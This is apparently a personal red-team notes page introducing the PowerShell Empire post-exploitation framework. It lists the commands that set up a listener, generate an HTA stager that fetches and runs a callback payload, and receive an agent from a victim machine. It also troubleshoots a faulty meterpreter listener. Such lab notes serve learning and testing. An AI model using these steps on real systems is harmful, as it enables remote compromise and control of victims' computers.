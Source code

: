 ```yaml
---
description: Exploring key concepts of the Powershell Empire
---
```


# Powershell Empire 101

## Listener

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
// Empire commands used
?
uselistener meterpreter
info
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-listener.png)

Starting the listener:

```text
execute
```

![](../.gitbook/assets/empire-startlistener.png)

## Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `meterpreter`- below shows how to set it up and generate:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
//specify what stager to use
usestager windows/hta

//associate stager with the meterpreter listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-stager%20%281%29.png)

A quick look at the stager code:

![](../.gitbook/assets/stager-hta.gif)

### Issues

Various stagers I generated for the meterpreter listener were giving me errors like [this](https://github.com/EmpireProject/Empire/issues/896) and this:

![](../.gitbook/assets/stager-bat.png)

and this:

![](../.gitbook/assets/stager-vbs.png)

After looking at the traffic and a quick nmap scan, it seems like there may be a bug in Empire's uselistener module when used with meterpreter - for some reason it will not actually start listening/open up the port:

![](../.gitbook/assets/stager-listeners.png)

![](../.gitbook/assets/stager-pcap.png)

To test this assumption, I created another http listener on port 80 - which worked immediately, leaving the meterpeter listener being buggy at least on my system:

![](../.gitbook/assets/stager-http.png)

## Agent

Agent is essentially a victim system that called back to the listener and is now ready to receive commands.

Continuing testing with the `http` listener and a `multi/launcher` stager, the agent is finally returned once the `launcher.ps1` \(read: stager\) is executed on the victim system:

![](../.gitbook/assets/stager-received.gif)







{% embed data="{\"url\":\"https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/\",\"type\":\"link\",\"title\":\"How to Use PowerShell Empire: Getting Started with Post-Exploitation of Windows Hosts\",\"description\":\"PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both. In these tutorials, we will be exploring everything from how to install Powershell Empire to how to snoop around a victim\'s computer without the antivirus software knowing about it. If we are lucky, we might even be able to obtain domain administrator credentials and own the whole network. A Tool for Targeting Windows Exploit frameworks are popular, and most hackers have heard of Metasploit, a framework that automates the deployment of powerful\",\"icon\":{\"type\":\"icon\",\"url\":\"https://img.wonderhowto.com/images/favicons/wonderhowto/favicon-194x194.png\",\"width\":194,\"height\":194,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://img.wonderhowto.com/img/85/10/63638593407829/0/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts.1280x600.jpg\",\"width\":1280,\"height\":600,\"aspectRatio\":0.46875}}" %}

